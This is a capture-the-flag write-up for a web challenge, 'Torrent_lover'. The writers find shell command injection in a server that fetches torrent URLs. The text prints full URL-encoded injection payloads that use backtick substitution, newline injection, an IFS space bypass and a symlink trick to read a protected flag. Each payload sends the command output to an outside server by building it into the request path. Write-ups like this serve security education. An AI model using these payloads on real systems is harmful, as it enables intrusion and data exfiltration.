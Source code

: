 Torrent_lover 
------------------------

Torrent lover is a web problem. Accessing the page, we see a textbox asking us to point to a torrent. We create a torrent file and upload it and it gives us a link to check the output, which lists the recently uploaded torrents. We notice that the server gets the values of the torrent file. 

We confirm this by hosting a torrent file and pointing the server to it. We see a query from the server. After playing with some inputs, we notice that the input accepted must end with .torrent. However, anything after a space or ';' is ignored. This makes us think that it may possibly be a call from a shell.

Perhaps, something like the following. 
<code>
output = system("curl ...our_input");
</code>


[ Note output is ommitted since the servers are not up after CTF and we cant reproduce it ]

We do a simple test with the string

"http://our_server/$PATH.torrent"

And we notice that our server gets the request with the actual path of the server. 


Great! So let's try running some commands, 

<pre><code>
http%3A%2F%2Funix1.andrew.cmu.edu%3A8000%2F`ls`.php%0aa.torrent
</code></pre>

We notice that we get some output, but we only get the first part of the output that is before a space! However, we are also limited as we can't have an input with spaces between them, so we use the IFS trick! And to get all the outputs from the server, we use 'tr' to replace the whitespace in the output with a delimeter:

<pre><code>
http%3A%2F%2Funix1.andrew.cmu.edu%3A8000%2F`IFS=+;a=ls+-l;ta1=tr+'\t'+'?';ta2=tr+'\n'+'?';ta3=tr+'\40'+'?';$a|$ta1|$ta2|$ta3`.php%0aa.torrent
</code></pre>

After browsing around, we realized that in the directory /var/www we have a directory called flag, that contains a binary use_me_to_read_flag (owner flag and setuid), and a file flag.txt which is readonly by a user flag. We run use_me_to_read_flag and notice that the usage is ./use_me_to_read_flag [file]. We then try

<pre><code>
url=http%3A%2F%2Funix1.andrew.cmu.edu%3A8000%2F`IFS=+;a=../flag/use_me_to_read_flag+../flag/flag;ta1=tr+'\t'+'?';ta2=tr+'\n'+'?';ta3=tr+'\40'+'?';$a|$ta1|$ta2|$ta3`.php%0aa.torrent
</code></pre>

However, it gives us an error that we can't read the file... We try several inputs and realize that it only gives us an error if the input has the word 'flag' in it. 

Therefore, we get around this by creating a symbolic link and running the binary on it.

<pre><code>
url=http%3A%2F%2Funix1.andrew.cmu.edu%3A8000%2F`IFS=+;csym=ln+-s+/var/www/flag/flag+/var/www/work/zhongzi/mytorrz;a=ls+-l+/var/www/work/zhongzi/my*;ta1=tr+'\t'+'_';ta2=tr+'\n'+'_';ta3=tr+'\40'+'_';$csym;$a|$ta1|$ta2|$ta3`.php%0aa.torrent
</code></pre>


And we run the file:

<pre><code>
url=http%3A%2F%2Funix1.andrew.cmu.edu%3A8000%2F`IFS=+;a=../flag/use_me_to_read_flag+/var/www/work/zhongzi/mytorrz;ta1=tr+'\t'+'?';ta2=tr+'\n'+'?';ta3=tr+'\40'+'?';$a|$ta1|$ta2|$ta3`.php%0aa.torrent
</code></pre>


and we get the flag!